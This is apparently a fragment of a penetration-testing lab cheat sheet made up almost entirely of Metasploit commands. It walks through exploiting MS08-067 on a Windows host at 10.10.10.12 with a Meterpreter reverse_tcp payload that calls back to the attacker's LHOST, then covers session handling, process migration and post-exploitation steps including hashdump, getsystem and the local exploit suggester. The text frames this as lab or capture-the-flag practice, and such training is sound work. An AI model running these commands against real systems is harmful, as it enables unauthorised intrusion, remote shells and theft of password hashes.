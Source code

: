 ```
# Background for later
background
```

Exploit example (Windows: MS08-067 – if applicable in your lab)
```
# Validate SMB first
use auxiliary/scanner/smb/smb_version
set RHOSTS 10.10.10.12
run
back

# Search and configure exploit
search type:exploit name:ms08_067
use exploit/windows/smb/ms08_067_netapi
show targets
set RHOSTS 10.10.10.12
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST ${LHOST}
set LPORT 4444
check      # If supported, confirms likely vulnerability
exploit -j # Run in background as a job

# Manage session
sessions
sessions -i 1
sysinfo
getuid
# If unstable, find a stable process and migrate
ps
migrate <PID>
```

Post-exploitation essentials (Meterpreter)
```
# Inside meterpreter
getuid
sysinfo
ipconfig
pwd
ls
search -f *flag*  # Or lab-specific target files
hashdump           # Requires SYSTEM/privs on Windows
getprivs
getsystem          # Try privilege escalation (Windows)
shell              # Drop to a system shell if needed
background
```

Automatic local exploit suggestion (post-exploitation)
```
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

